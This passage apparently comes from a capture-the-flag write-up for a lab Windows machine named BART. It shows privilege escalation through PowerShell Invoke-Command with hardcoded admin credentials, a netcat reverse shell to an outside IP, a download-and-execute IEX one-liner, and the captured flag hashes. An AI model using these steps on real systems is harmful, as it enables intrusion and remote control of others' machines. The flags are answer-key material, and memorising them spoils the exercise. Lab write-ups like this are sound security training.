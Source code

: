 #### 7.1. Run command as Admin user via `Invoke-Command` (PSRemoting)

```
PS C:\Windows\Temp\.H> Invoke-Command -ComputerName BART -Credential $credential -ScriptBlock {whoami}
Invoke-Command -ComputerName BART -Credential $credential -ScriptBlock {whoami}
bart\administrator
```


#### 7.2. Admin reverse shell

##### 7.2.1. PS script `nc_as_admin.ps1` (local script)
```
$username = 'WORKGROUP\Administrator';
$password = '3130438f31186fbaf962f407711faddb';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
Invoke-Command -ComputerName BART -Credential $credential -ScriptBlock {C:\Windows\Temp\.H\nc64.exe -nd 10.10.14.93 7777 -e cmd.exe}
```

##### 7.2.2. Running the script (remote)
```
C:\Windows\Temp\.H>echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.93:8888/nc_as_admin.ps1') | powershell -noprofile -
```


#### 7.3. The flags
```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
0074a38e6eac2d3785741713b3bfa2dc
C:\Users\h.potter>type user.txt
type user.txt
625b6c7aa299599acae0125d3af3830f
```
